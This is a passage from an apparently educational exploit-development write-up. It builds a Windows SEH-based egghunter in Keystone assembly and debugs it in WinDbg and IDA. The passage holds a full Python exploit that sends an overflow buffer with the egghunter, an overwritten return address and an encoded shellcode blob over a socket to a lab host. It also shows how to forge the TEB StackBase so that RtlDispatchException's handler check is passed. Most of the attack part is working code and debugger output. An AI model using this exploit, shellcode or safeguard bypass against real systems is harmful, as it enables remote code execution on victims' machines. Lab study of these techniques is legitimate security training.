    "       mov eax, 0x74303077;               "

            # _EXCEPTION_REGISTRATION_RECORD.Handler
    "       push ecx;                          "

            # _EXCEPTION_REGISTRATION_RECORD.Next
    "       push 0xffffffff;                   "

            # Zero EBX
    "       xor ebx, ebx;                      "

            # Install our SEH record:
            # FS:[0] = pointer to _EXCEPTION_REGISTRATION_RECORD
    "       mov dword ptr fs:[ebx], esp;       "

    # -----------------------------------------------------------------
    # Egg searching loop
    # -----------------------------------------------------------------
    "is_egg:                            "

            # ECX = 2
            # We want REPE SCASD to compare two DWORDs:
            # "w00t" + "w00t"
    "       push 0x02;                         "
    "       pop ecx;                           "

            # EDI points to the memory location currently being tested
    "       mov edi, ebx;                      "

            # Compare EAX ("w00t") against two consecutive DWORDs.
            # If an invalid page is accessed, an exception occurs and
            # our SEH handler will redirect execution.
    "       repe scasd;                        "

    # Not a match - continue searching one byte later
    "       jnz loop_inc_one;                  "

            # Found "w00tw00t" - EDI points immediately after the egg
    "       jmp edi;                           "

    # -----------------------------------------------------------------
    # Invalid page handler target
    # -----------------------------------------------------------------
    "loop_inc_page:                     "
            # Move to the end of the current memory page
    "       or bx, 0xfff;                      "

    # -----------------------------------------------------------------
    # Advance one byte and continue searching
    # -----------------------------------------------------------------
    "loop_inc_one:                      "
    "       inc ebx;                           "
    "       jmp is_egg;                        "

    # -----------------------------------------------------------------
    # Obtain the exception handler address via CALL/POP
    # -----------------------------------------------------------------
    "get_seh_address:                   "
    "       call build_exception_record;       "

            # -----------------------------------------------------------------
            # SEH exception handler (reached only by dispatcher)
            # -----------------------------------------------------------------

            # ECX = 0x0C
    "       push 0x0c;                         "
    "       pop ecx;                           "

            # Retrieve pointer to CONTEXT structure
            # Stack layout during exception dispatch:
            #   [ESP+0x0C] -> CONTEXT*
    "       mov eax, [esp+ecx];                "

            # Offset of EIP inside CONTEXT structure
    "       mov cl, 0xb8;                      "

            # Modify saved EIP to point to loop_inc_page (6 bytes forward)
    "       add dword ptr [eax+ecx], 0x06;     "

            # Save original return value
    "       pop eax;                           "

            # Clean up exception handler stack frame
    "       add esp, 0x10;                     "

            # Restore return value
    "       push eax;                          "

            # EXCEPTION_CONTINUE_EXECUTION - return 0
    "       xor eax, eax;                      "

            # Return from exception handler
    "       ret;                               "
)

# Initialize Keystone in x86 32-bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

print("Encoded %d instructions..." % count)

egghunter = ""
for dec in encoding:
    egghunter += "\\x{0:02x}".format(dec)

print('egghunter = ("' + egghunter + '")')
```



*Figure 20.1 - The complete SEH-based egghunter script. Keystone assembles all labels and relative offsets automatically - we write readable assembly and Keystone handles the encoding. The sections below walk through every block of the generated output.*


### 20.3 Code Walkthrough

#### `start` - Entry Jump

```python
"start:                             "
"       jmp get_seh_address;               "
```



*Figure 20.2 - Execution begins by jumping to `get_seh_address`. This ordering
is required because the CALL/POP technique needs `build_exception_record` to
reside immediately after the CALL instruction in memory.*

#### `get_seh_address` and the CALL/POP Technique

```python
"get_seh_address:                   "
"       call build_exception_record;       "
```



*Figure 20.3 - `CALL build_exception_record` does two things simultaneously:
it pushes the return address (the address of `PUSH 0x0C`, which is the start of
our exception handler code) onto the stack, then jumps to `build_exception_record`.
The pushed return address is a position-independent way to obtain the absolute
address of the handler code.*

#### `build_exception_record` - Installing the SEH Record

```python
"build_exception_record:            "
"       pop ecx;                           "
"       mov eax, 0x74303077;               "
"       push ecx;                          "
"       push 0xffffffff;                   "
"       xor ebx, ebx;                      "
"       mov dword ptr fs:[ebx], esp;       "
```



*Figure 20.4 - The builder constructs a minimal `_EXCEPTION_REGISTRATION_RECORD`
on the stack and installs it as the head of the exception chain.*

`POP ECX` - retrieves the return address pushed by the CALL. ECX now holds the
address of the exception handler code (`PUSH 0x0C`):



*Figure 20.5 - After `POP ECX`, the register contains the absolute address of
the instruction immediately following the `CALL` - which is the first instruction
of our exception handler.*

`MOV EAX, 0x74303077` - loads the egg signature `w00t` into EAX:



*Figure 20.6 - EAX now holds the 4-byte egg value that `REPE SCASD` will search
for.*

`PUSH ECX` - places the handler address onto the stack as the
`_EXCEPTION_REGISTRATION_RECORD.Handler` field:



*Figure 20.7 - The handler pointer is now at `[ESP]`. After the next push it
will be at `[ESP+4]`, which is where `_EXCEPTION_REGISTRATION_RECORD.Handler`
lives (the `Next` field is at offset `+0x000` and `Handler` at `+0x004`).*

`PUSH 0xFFFFFFFF` - places the chain terminator as
`_EXCEPTION_REGISTRATION_RECORD.Next`. `0xFFFFFFFF` signals the end of the SEH
chain:



*Figure 20.8 - The stack now holds a complete `_EXCEPTION_REGISTRATION_RECORD`:
`Next = 0xFFFFFFFF` at `[ESP]` and `Handler = address of handler code` at
`[ESP+4]`.*

`XOR EBX, EBX` - zeros EBX, which we will use as both the offset for `FS:[0]`
and the memory address counter for the egg scan:

![XOR EBX, EBX - zero EBX for FS:[0] offset and scan counter](../images/sc133-xor-ebx.png)

*Figure 20.9 - After XOR, EBX = 0. `FS:[EBX]` is therefore `FS:[0]`.*

`MOV DWORD PTR FS:[EBX], ESP` - writes the address of our stack-built
`_EXCEPTION_REGISTRATION_RECORD` into `FS:[0]`, making it the head of the
exception chain:

![MOV FS:[EBX], ESP - install SEH record at FS:[0]](../images/sc134-fs0-install.png)

*Figure 20.10 - Our custom SEH record is now at the head of the exception chain.
Any exception raised hereafter will be dispatched to our handler first.*

#### `is_egg` - Egg Scan with REPE SCASD

```python
"is_egg:                            "
"       push 0x02;                         "
"       pop ecx;                           "
"       mov edi, ebx;                      "
"       repe scasd;                        "
"       jnz loop_inc_one;                  "
"       jmp edi;                           "
```



*Figure 20.11 - The egg-scanning block. EBX is the address counter; EDI is the
SCASD pointer; ECX is the repeat count.*

`PUSH 0x02; POP ECX` - sets the REPE repeat count to 2. `REPE SCASD` decrements
ECX after each comparison and continues while the result matches. With ECX = 2
it will compare two consecutive DWORDs - the two halves of `w00tw00t`:



*Figure 20.12 - ECX = 2 means `REPE SCASD` will check the DWORD at `[EDI]`
and then the DWORD at `[EDI+4]` - together forming the 8-byte egg.*

`MOV EDI, EBX` - copies the current candidate address from EBX to EDI, which
is the source pointer for the string operation:



*Figure 20.13 - EDI now points at the memory address we are testing.*

`REPE SCASD` - atomically compares EAX against `[EDI]`, advances EDI by 4,
decrements ECX, and repeats while the comparison succeeds. If it faults on an
unmapped page, our exception handler takes control:



*Figure 20.14 - `REPE SCASD` is the heart of the SEH egghunter. It checks up
to two DWORDs in one instruction. A page fault during this instruction transfers
to our handler.*

`JNZ loop_inc_one` - if REPE SCASD ended because the comparison failed, jump
to advance EBX by one byte:



*Figure 20.15 - Most addresses will fail the comparison. The loop increments
the counter and retries.*

`JMP EDI` - if both DWORDs matched, EDI is already 8 bytes past the egg and
points at the first byte of the shellcode:



*Figure 20.16 - We jump directly to the payload. The egghunter's work is done.*

#### Exception Handler - Patching the Saved EIP

When `REPE SCASD` faults, Windows calls our handler with four arguments. The
prototype:

```c
typedef EXCEPTION_DISPOSITION (*PEXCEPTION_ROUTINE)(
    IN     PEXCEPTION_RECORD     ExceptionRecord,
    IN     PVOID                 EstablisherFrame,
    IN OUT PCONTEXT              ContextRecord,
    IN OUT PDISPATCHER_CONTEXT   DispatcherContext
);
```



*Figure 20.17 - The handler receives four arguments. The third - `ContextRecord`
- is the one we need. It is a pointer to the `CONTEXT` structure, which contains
the CPU state saved when the fault occurred.*

The `CONTEXT` structure stores the saved EIP at offset `0x0B8`:

```text
dt ntdll!_CONTEXT
```



*Figure 20.18 - `_CONTEXT.Eip` lives at offset `+0x0B8`. By modifying this
field before returning `ExceptionContinueExecution`, we control where execution
resumes after the exception is handled.*

The return value that tells the dispatcher to continue execution:

```text
dt _EXCEPTION_DISPOSITION
```



*Figure 20.19 - Returning `0` (`ExceptionContinueExecution`) causes the OS to
reload execution from the (modified) `CONTEXT` and resume the thread.*

The handler code:

```python
"       push 0x0c;                         "
"       pop ecx;                           "
"       mov eax, [esp+ecx];                "
"       mov cl, 0xb8;                      "
"       add dword ptr [eax+ecx], 0x06;     "
"       pop eax;                           "
"       add esp, 0x10;                     "
"       push eax;                          "
"       xor eax, eax;                      "
"       ret;                               "
```



*Figure 20.20 - The handler code immediately follows the `CALL` instruction in
memory. When the dispatcher invokes this code, the stack contains the four
arguments above the saved return address.*

`CALL build_exception_record` - the return address pushed here is the first
instruction of the handler (`PUSH 0x0C`):



*Figure 20.21 - The CALL serves double duty: it jumps to the builder and
simultaneously establishes the handler's absolute address by pushing it as a
return address.*

`PUSH 0x0C; POP ECX` - loads `0x0C` into ECX. During exception dispatch, the
`ContextRecord*` argument lives at `[ESP + 0x0C]` relative to the top of the
handler's stack frame:



*Figure 20.22 - ECX = `0x0C`. Combined with ESP, this gives us the address
of the `ContextRecord` pointer on the stack.*

`MOV EAX, [ESP+ECX]` - dereferences `[ESP + 0x0C]` to obtain the `CONTEXT*`
pointer:

![MOV EAX, [ESP+ECX] - dereference to get CONTEXT* pointer](../images/sc147-mov-eax-context.png)

*Figure 20.23 - EAX now holds the address of the `_CONTEXT` structure that
describes the CPU state at the time of the fault.*

`MOV CL, 0xB8` - stores the EIP offset within `CONTEXT` into CL (note this
overwrites the low byte of ECX; the value `0x0C` is no longer needed):



*Figure 20.24 - CL = `0xB8`. Combined with EAX (`CONTEXT*`), `[EAX + 0xB8]`
gives us the saved EIP field.*

`ADD DWORD PTR [EAX+ECX], 0x06` - adds 6 to the saved EIP. When the fault
occurs during `REPE SCASD`, the saved EIP points back at `REPE SCASD`. Adding
6 advances it to `loop_inc_page` (6 bytes forward), so execution resumes there
after the handler returns:

![ADD [EAX+ECX], 0x06 - advance saved EIP by 6 to skip to loop_inc_page](../images/sc149-add-eip-6.png)

*Figure 20.25 - The distance from `REPE SCASD` to `loop_inc_page` is exactly
6 bytes. After this ADD, when the OS restores the `CONTEXT`, execution will
resume at `loop_inc_page` instead of retrying the faulting instruction.*

`POP EAX` - retrieves the return address (pushed before the handler was invoked)
from the stack into EAX for safe-keeping:



*Figure 20.26 - The return address must be preserved so we can push it back
after cleaning up the exception handler frame.*

`ADD ESP, 0x10` - tears down the exception handler stack frame, advancing ESP
past the four arguments the dispatcher pushed:



*Figure 20.27 - The stack frame created by the dispatcher is 0x10 bytes.
After this instruction, ESP points where it did before the handler was called.*

`PUSH EAX` - restores the return address so `RET` can use it:



*Figure 20.28 - The return address is back on top of the stack.*

`XOR EAX, EAX` - sets EAX to 0, which is the value of
`ExceptionContinueExecution`. Returning 0 tells the dispatcher to resume
execution at the (now patched) saved EIP:



*Figure 20.29 - EAX = 0. The handler is ready to return.*

`RET` - pops the return address and transfers control back to the dispatcher,
which will then reload the `CONTEXT` and resume execution at `loop_inc_page`:



*Figure 20.30 - Execution returns to the Windows exception dispatcher. The
dispatcher sees `ExceptionContinueExecution` (EAX = 0), reloads the modified
`CONTEXT`, and resumes the thread at `loop_inc_page`.*

---

## 21. Running the SEH Egghunter - First Attempt

### 21.1 Generating the Opcodes

```text
python3 sehegg.py
```



*Figure 21.1 - Keystone assembles the SEH egghunter and prints the opcode
string. No bad characters appear in the output.*

### 21.2 Adding the Egghunter to the Exploit

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    egghunter = (b"\x90" * 8) + b"\xeb\x21\x59\xb8\x77\x30\x30\x74\x51\x6a\xff\x31\xdb\x64\x89\x23\x6a\x02\x59\x89\xdf\xf3\xaf\x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xda\xff\xff\xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4\x10\x50\x31\xc0\xc3"
    filler    = b"A" * (253 - len(egghunter))
    EIP       = pack("<L", 0x418674)
    shellcode  = b""
    shellcode += b"\xbe\x81\x4a\x93\x05\xdd\xc0\xd9\x74\x24\xf4"
    shellcode += b"\x58\x33\xc9\xb1\x5e\x31\x70\x15\x83\xc0\x04"
    shellcode += b"\x03\x70\x11\xe2\x74\xb6\x7b\x8a\x76\x47\x7c"
    shellcode += b"\xf5\x47\x95\x18\x7e\xf5\x29\x6a\xd2\xf5\xc2"
    shellcode += b"\x3e\xc7\x8c\x30\x35\x95\xa6\x8b\xb5\x55\x01"
    shellcode += b"\xa1\x6f\x5b\xad\x9a\x4c\xfa\x51\xe1\x80\xdc"
    shellcode += b"\x68\x2a\xd5\x1d\xad\xfc\x93\xf2\x63\xa8\xd0"
    shellcode += b"\x5f\x93\xdd\xa5\x63\x92\x31\xa2\xdc\xec\x34"
    shellcode += b"\x75\xa8\x40\x36\xa6\x01\xd3\x70\x5e\x29\xbb"
    shellcode += b"\xa0\x5f\xfe\xbe\x68\x2b\x3c\x89\xe1\xe0\xb7"
    shellcode += b"\x08\x20\x39\x37\x3b\x0c\xfb\x08\x36\x20\xfd"
    shellcode += b"\x51\x70\xd8\x8b\xa9\x83\x65\x8c\x69\xfe\xb1"
    shellcode += b"\x19\x6e\x58\x31\xb9\x4a\x59\x96\x5c\x18\x55"
    shellcode += b"\x53\x2a\x46\x79\x62\xff\xfc\x85\xef\xfe\xd2"
    shellcode += b"\x0c\xab\x24\xf7\x55\x6f\x44\xae\x33\xde\x79"
    shellcode += b"\xb0\x9b\xbf\xdf\xba\x09\xa9\x60\x43\xd2\xd6"
    shellcode += b"\x3c\xd4\x1f\x1b\xbf\x24\x37\x2c\xcc\x16\x98"
    shellcode += b"\x86\x5a\x1b\x51\x01\x9c\x2a\x75\xb2\x72\x94"
    shellcode += b"\x15\x4c\x73\xe5\x3c\x8b\x27\xb5\x56\x3a\x48"
    shellcode += b"\x5e\xa6\xc3\x9d\xcb\xac\x53\x14\x0c\xb2\xa7"
    shellcode += b"\x40\x0e\xb2\xa6\x2b\x87\x54\xf8\x1b\xc8\xc8"
    shellcode += b"\xb9\xcb\xa8\xb8\x51\x06\x27\xe7\x42\x29\xed"
    shellcode += b"\x80\xe9\xc6\x58\xf9\x85\x7f\xc1\x71\x37\x7f"
    shellcode += b"\xdf\xfc\x77\x0b\xea\x01\x39\xfc\x9f\x11\x2e"
    shellcode += b"\x9b\x5f\xe9\xaf\x0e\x60\x83\xab\x98\x37\x3b"
    shellcode += b"\xb6\xfd\x70\xe4\x49\x28\x03\xe2\xb6\xad\x32"
    shellcode += b"\x99\x81\x3b\x7b\xf5\xed\xab\x7b\x05\xb8\xa1"
    shellcode += b"\x7b\x6d\x1c\x92\x2f\x88\x63\x0f\x5c\x01\xf6"
    shellcode += b"\xb0\x35\xf6\x51\xd9\xbb\x21\x95\x46\x43\x04"
    shellcode += b"\xa5\x81\xbb\xdb\x82\x29\xd4\x23\x93\xc9\x24"
    shellcode += b"\x49\x13\x9a\x4c\x86\x3c\x15\xbd\x67\x97\x7e"
    shellcode += b"\xd5\xe2\x76\xcc\x44\xf3\x52\x90\xd8\xf4\x51"
    shellcode += b"\x09\xea\x8f\x1a\xae\x0b\x70\x33\xcb\x0b\x71"
    shellcode += b"\x3b\xed\x30\xa4\x02\x9b\x77\x75\x31\x84\x65"
    shellcode += b"\x53\x4c\x2d\x30\x36\xed\x30\xc3\xed\x32\x4d"
    shellcode += b"\x40\x07\xcb\xaa\x58\x62\xce\xf7\xde\x9f\xa2"
    shellcode += b"\x68\x8b\x9f\x11\x88\x9e"
    egg     = b"w00tw00t" + shellcode + b"D" * (430 - len(shellcode))
    payload = method + egghunter + filler + EIP + b"\r\n\r\n" + egg

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 21.2 - The exploit with the first (unfixed) SEH egghunter.*

```text
python3 eggh.py 10.0.2.5
```


*Figure 21.3 - Exploit delivered.*

Disassemble the egghunter at its runtime address:

```text
u 041aea8f L21
```



*Figure 21.4 - The SEH egghunter is correctly placed in memory with no byte
corruption.*

### 21.3 Step-Through Verification

Single-step through the entry jump:

```text
t
```



*Figure 21.5 - The `JMP get_seh_address` forwards execution to the CALL/POP
section.*

Step through the CALL:

```text
t
```



*Figure 21.6 - EIP is at the `CALL` instruction. The next step will push the
handler address onto the stack and jump to the builder.*

Inspect the stack before the CALL:

```text
dds @esp L4
```



*Figure 21.7 - The stack before the CALL. Nothing special here yet.*

Execute the CALL and inspect again:

```text
t
dds @esp L4
```



*Figure 21.8 - After the CALL, the top of the stack holds the return address -
which is the address of `PUSH 0x0C`, the first instruction of our exception
handler. `POP ECX` in `build_exception_record` will retrieve it.*

Verify the pushed address disassembles to our handler:

```text
u 041aeabd
```



*Figure 21.9 - Disassembling the pushed return address confirms it points to
`PUSH 0x0C` - the handler entry point. The CALL/POP technique is working.*

Step through to the `MOV FS:[EBX], ESP` instruction and inspect EDX:

```text
t
r @edx
```

![Stepping to MOV FS:[EBX], ESP - about to install SEH record](../images/sc164-seh-overwrite-step.png)

*Figure 21.10 - EIP is at `MOV DWORD PTR FS:[EBX], ESP`. When this executes,
our custom `_EXCEPTION_REGISTRATION_RECORD` on the stack will be installed as
the head of the SEH chain.*

After executing, check the TEB:

```text
!teb
```



*Figure 21.11 - The TEB's `ExceptionList` field now holds the address of our
crafted record. Our exception handler is installed.*

Step into the is_egg loop and check EDI:

```text
t
t
dd edi
```



*Figure 21.12 - EDI points into a low, unmapped address range. `REPE SCASD`
is about to fault.*

```text
t
```



*Figure 21.13 - The access violation is raised. Control should transfer to our
custom handler.*

Check the exception chain:

```text
!exchain
u 041aeabd
```



*Figure 21.14 - `!exchain` confirms our custom record is at the head of the
chain and the handler address points to our code.*

Set a breakpoint on the handler entry and continue:

```text
bp 041aeabd
g
```



*Figure 21.15 - Breakpoint armed at the first instruction of our handler.*



*Figure 21.16 - The access violation fires, but the breakpoint is never hit.
Windows skipped our handler entirely. The dispatcher is rejecting it before
calling our code. We need to reverse-engineer `RtlDispatchException` to find out
why.*

---

## 22. Reverse-Engineering `RtlDispatchException`

To understand why the handler is silently rejected, we analyse the Windows
exception dispatcher using a combination of WinDbg (dynamic) and IDA Pro
(static).

### 22.1 Starting Point

Resume the process in WinDbg:

```text
g
```



*Figure 22.1 - Execution resumes. We will use this session to set breakpoints
inside `ntdll` while simultaneously examining its code in IDA.*

Open `ntdll.dll` in IDA Pro:



*Figure 22.2 - IDA with `ntdll.dll` loaded. We will navigate to
`RtlDispatchException` and study its validation logic.*

When an exception occurs, `KiUserExceptionDispatcher` is the first user-mode
function invoked. It calls `RtlDispatchException`:



*Figure 22.3 - `ntdll!KiUserExceptionDispatcher` is the user-mode entry point
for all exceptions. It prepares the arguments and calls `RtlDispatchException`.*



*Figure 22.4 - The CALL to `RtlDispatchException`. This is the function that
walks the SEH chain and validates each handler before calling it.*

Set a breakpoint in WinDbg:

```text
bp ntdll!RtlDispatchException
bl
```



*Figure 22.5 - Breakpoint confirmed on `RtlDispatchException`.*

```text
g
```



*Figure 22.6 - The breakpoint fires when the next access violation occurs.
We are now inside `RtlDispatchException`.*

### 22.2 Stack Limit Retrieval

Inside `RtlDispatchException`, IDA shows a call to `RtlpGetStackLimits`:



*Figure 22.7 - `RtlpGetStackLimits` is called early in `RtlDispatchException`
to retrieve the thread's `StackBase` and `StackLimit` from the TEB.*



*Figure 22.8 - Inside `RtlpGetStackLimits`. The function reads `FS:[4]`
(StackBase) and `FS:[8]` (StackLimit) from the `_NT_TIB` embedded at the start
of the TEB.*

Confirming the `_NT_TIB` layout:

```text
dt _NT_TIB
```

![dt _NT_TIB - StackBase at FS:[4], StackLimit at FS:[8]](../images/sc179-dt-nt-tib.png)

*Figure 22.9 - `_NT_TIB` confirms: `ExceptionList` at `+0x000` (`FS:[0]`),
`StackBase` at `+0x004` (`FS:[4]`), `StackLimit` at `+0x008` (`FS:[8]`).*

IDA shows the `RtlpGetStackLimits` function using LEA to set up its output
parameters:

```nasm
lea     edx, [esp+88h+var_68]
lea     ecx, [esp+88h+var_6C]
```



*Figure 22.10 - EDX and ECX receive the addresses where `StackBase` and
`StackLimit` will be written.*

After `RtlpGetStackLimits` returns, `RtlDispatchException` loads `FS:[0]`
(the exception list) into EDI:

```nasm
mov     edi, large fs:0
```

![IDA - exception list loaded from FS:[0] into EDI](../images/sc181-edi-fs0.png)

*Figure 22.11 - EDI is loaded with the address of the first
`_EXCEPTION_REGISTRATION_RECORD` - our custom record.*

The function body of `RtlpGetStackLimits` reads `StackBase` from `[EAX+4]`
and `StackLimit` from `[EAX+8]`, where EAX is the TEB self-pointer:

```nasm
mov     esi, [eax+4]    ; StackBase
mov     eax, [eax+8]    ; StackLimit
mov     [edx], esi
mov     [ecx], eax
```



*Figure 22.12 - The complete `RtlpGetStackLimits` logic. It reads `FS:[18]`
to get the TEB self-pointer, then indexes into it for the stack boundaries.*



*Figure 22.13 - ESI receives `StackBase`, EAX receives `StackLimit`, and they
are stored to the caller's output variables.*

After retrieving the stack limits, `RtlDispatchException` only calls
`RtlIsValidHandler` if four sequential checks all pass:



*Figure 22.14 - `RtlIsValidHandler` is the gate that must be reached for any
handler to be called. The four checks guard it.*


The four checks that guard `RtlIsValidHandler` happen in a tight loop.
Each one compares a field of the `_EXCEPTION_REGISTRATION_RECORD` against the
thread's stack boundaries. The exact code path can be traced in IDA, but the
base address of `ntdll.dll` differs between the on-disk binary IDA loaded and
the in-process image WinDbg is debugging. Before setting any breakpoints by
offset, IDA must be rebased to match the live process.

### Navigating the First Comparison

Starting with the first comparison block inside `RtlDispatchException`:



*Figure 22.15 - The first conditional check inside `RtlDispatchException`. If
this comparison fails, the exception chain walk terminates without ever calling
`RtlIsValidHandler`.*

Switching to WinDbg to see what address the same basic block occupies at
runtime:



*Figure 22.16 - WinDbg shows `ntdll` loaded at a different base than the one
IDA used when it opened the binary. Any IDA offset must be rebased before it
can be used as a WinDbg breakpoint address.*

### Rebasing IDA to Match the Live Process

To synchronise addresses, `Edit → Segments → Rebase program` is used in IDA:



*Figure 22.17 - IDA's rebase dialog. The new base address is taken from
WinDbg's `lm m ntdll` output.*

The module base from WinDbg is entered as the new image base:



*Figure 22.18 - Entering the runtime base address so every virtual address in
IDA maps directly to a WinDbg address with no arithmetic.*

After confirming, IDA updates all addresses:



*Figure 22.19 - All IDA virtual addresses now match the live process. The
first-comparison block can be read directly as a WinDbg breakpoint target.*

### Check 1 - Exception Record Above StackLimit

With the bases aligned, a breakpoint is placed at the exact instruction that
performs the first comparison:

```nasm
bp ntdll!RtlDispatchException + 0xDC
```



*Figure 22.20 - Breakpoint placed at the first check instruction inside
`RtlDispatchException`. The offset `0xDC` maps to the comparison that ensures
the exception record's address is above `StackLimit`.*

Resuming execution and then disassembling the two instructions at the
breakpoint:

```nasm
g
u 77d7d474 L2
```



*Figure 22.21 - The breakpoint fires. The disassembly shows a comparison
between the exception-record pointer (ECX) and the current `StackLimit`. If
the record is below `StackLimit` the check fails and the handler is skipped.*

Dumping the TEB to read the live stack limits:

```nasm
!teb
```



*Figure 22.22 - `!teb` confirms: `ExceptionList` is higher than `StackLimit`,
so the first check **passes**. Our `_EXCEPTION_REGISTRATION_RECORD` sits inside
the committed stack region.*

### Check 2 - Exception Record + 8 Below StackBase

IDA shows the second comparison immediately after the first passes:



*Figure 22.23 - The second check verifies that the entire
`_EXCEPTION_REGISTRATION_RECORD` structure (8 bytes) fits below `StackBase`.
This ensures the record is fully contained within the stack.*

Stepping through in WinDbg:

```nasm
t
t
```



*Figure 22.24 - Single-stepping brings execution to the second comparison.
ECX holds the pointer to our custom `_EXCEPTION_REGISTRATION_RECORD`.*

Evaluating `ECX + 8` to confirm the upper bound of the record:

```nasm
? ecx + 8
```



*Figure 22.25 - `ECX + 8` gives the end address of the exception record.
This address is below `StackBase`, so the second check **passes**.*

Stepping once more and reading the final operands:

```nasm
t
? esp + 20
r eax
```



*Figure 22.26 - `ESP + 20` computes the current `StackBase` reference point.
EAX holds `record_addr + 8`. Because EAX < StackBase, the range check
passes and execution continues.*

### Check 3 - Exception Record 4-Byte Aligned

The third check is a simple alignment test - the two least-significant bits of
the exception record address must both be zero:



*Figure 22.27 - A bitwise AND of the record pointer against `0x3`. A non-zero
result means the pointer is misaligned and the check fails.*

Stepping through in WinDbg:

```nasm
t
t
```



*Figure 22.28 - The test instruction examines the low two bits of ECX.
Because the record was `PUSH`ed onto the stack, which is always DWORD-aligned,
the result is zero - the third check **passes**.*

> **Why this matters:** the Windows kernel stores `_EXCEPTION_REGISTRATION_RECORD`
> entries as a singly-linked list. An unaligned pointer would cause a misaligned
> memory access when dereferencing the `Next` field during the chain walk.
{: .prompt-info }

### Check 4 - Handler Address Above StackBase

The fourth check is the one that breaks the original egghunter. IDA shows the
comparison that evaluates the handler function pointer:



*Figure 22.29 - The final comparison in the validation sequence. The handler's
virtual address is compared against `StackBase`. Handlers located **below**
`StackBase` fail this check.*

Stepping to reach the comparison in WinDbg:

```nasm
t
t
```



*Figure 22.30 - Execution reaches the fourth check. ECX holds a pointer to our
`_EXCEPTION_REGISTRATION_RECORD`.*

Dumping the record structure to read the stored handler address:

```nasm
dt _EXCEPTION_REGISTRATION_RECORD @ecx
```



*Figure 22.31 - `dt` reveals the `Handler` field value - the address of our
exception handler function inside the egghunter buffer.*

Stepping into the comparison block itself:

```nasm
t
```



*Figure 22.32 - IDA highlights the instruction that compares the handler
address against `StackBase`. If the handler address is lower, the branch
skips `RtlIsValidHandler` entirely.*

Reading the live values to confirm the failure:

```nasm
!teb
? esp+20
r ecx
```



*Figure 22.33 - The handler address in ECX is **below** `StackBase`. The
comparison fails. `RtlIsValidHandler` is never reached, the handler is never
called, and the egghunter freezes.*

> **Root cause summary.** `RtlDispatchException` enforces four sequential
> requirements before it will honour an exception handler registration:
>
> 1. `_EXCEPTION_REGISTRATION_RECORD` address ≥ `StackLimit`
> 2. `_EXCEPTION_REGISTRATION_RECORD` address + 8 ≤ `StackBase`
> 3. `_EXCEPTION_REGISTRATION_RECORD` address & 0x3 == 0 (4-byte aligned)
> 4. Handler address ≥ `StackBase`
>
> Checks 1-3 pass because the record is pushed onto the stack. Check 4 fails
> because the handler lives inside the egghunter buffer, which is **below** the
> stack.
{: .prompt-danger }

## 23. Forging StackBase to Pass Check 4

`RtlDispatchException` reads `StackBase` from `FS:[4]` and uses it as the upper
bound for check 4: the handler address must be at or above `StackBase`. Our handler
lives inside the egghunter buffer, which is far below the real stack. The real
`StackBase` is always above the stack, so our handler always fails check 4.

The fix is to move the `StackBase` boundary downward to a value just below our
handler address. Because `StackBase` is simply a DWORD in the TEB at `FS:[4]`, we
can overwrite it in user space - no privilege elevation needed. We do this inside
`build_exception_record`, immediately after installing the SEH record at `FS:[0]`.

The fix is surgical: immediately after writing the custom
`_EXCEPTION_REGISTRATION_RECORD` to `FS:[0]`, overwrite `FS:[4]` (the TEB's
`StackBase` field) with a value just **below** the handler address. This moves
the `StackBase` boundary downward so that the handler appears to lie above it.

Only two additional instructions are needed inside `build_exception_record`:

```nasm
sub ecx, 0x04       ; ecx = handler_addr - 4  (one DWORD below the handler)
add ebx, 0x04       ; ebx = 4                  (offset of StackBase in TEB)
mov dword ptr fs:[ebx], ecx   ; FS:[4] = forged StackBase
```

The complete updated egghunter assembled with Keystone:

```python
from keystone import *

CODE = (
    # Jump forward so we can obtain our current address
    # using a CALL/POP technique
    "start:                             "
    "       jmp get_seh_address;               "

    # -----------------------------------------------------------------
    # Build a custom SEH record
    # -----------------------------------------------------------------
    "build_exception_record:            "

        # pop the address of exception_handler into ECX
        "pop ecx;                           "

        # mov signature into EAX
        "mov eax, 0x74303077;               "

        # Push Handler of the _EXCEPTION_REGISTRATION_RECORD
        "push ecx;                          "

        # Push Next of the _EXCEPTION_REGISTRATION_RECORD
        "push 0xffffffff;                   "

        # Null out EBX
        "xor ebx, ebx;                      "

        # Overwrite ExceptionList in the TEB with a pointer
        # to our new _EXCEPTION_REGISTRATION_RECORD structure
        "mov dword ptr fs:[ebx], esp;       "

        # Subtract 4 from exception_handler pointer
        "sub ecx, 0x04;                     "

        # Add 4 to EBX
        "add ebx, 0x04;                     "

        # Overwrite StackBase in the TEB
        "mov dword ptr fs:[ebx], ecx;       "

    # -----------------------------------------------------------------
    # Egg searching loop
    # -----------------------------------------------------------------
    "is_egg:                            "

            # ECX = 2
            # We want REPE SCASD to compare two DWORDs:
            # "w00t" + "w00t"
    "       push 0x02;                         "
    "       pop ecx;                           "

            # EDI points to the memory location currently being tested
    "       mov edi, ebx;                      "

            # Compare EAX ("w00t") against two consecutive DWORDs.
            #
            # Equivalent to:
            #   cmp [edi], eax
            #   edi += 4
            #   cmp [edi], eax
            #   edi += 4
            #
            # If an invalid page is accessed, an exception occurs and
            # our SEH handler will redirect execution.
    "       repe scasd;                        "

            # Not a match?
            # Continue searching one byte later.
    "       jnz loop_inc_one;                  "

            # Found "w00tw00t"
            # EDI now points immediately after the egg.
            # Jump to the payload.
    "       jmp edi;                           "

    # -----------------------------------------------------------------
    # Invalid page handler target
    # -----------------------------------------------------------------
    "loop_inc_page:                     "

            # Move to the end of the current memory page.
            #
            # Example:
            #   0x12345000 -> 0x12345FFF
    "       or bx, 0xfff;                      "

    # -----------------------------------------------------------------
    # Advance one byte and continue searching
    # -----------------------------------------------------------------
    "loop_inc_one:                      "

            # Next memory location
    "       inc ebx;                           "

            # Search again
    "       jmp is_egg;                        "

    # -----------------------------------------------------------------
    # Obtain the exception handler address
    # -----------------------------------------------------------------
    "get_seh_address:                   "

            # Push return address and jump to build_exception_record
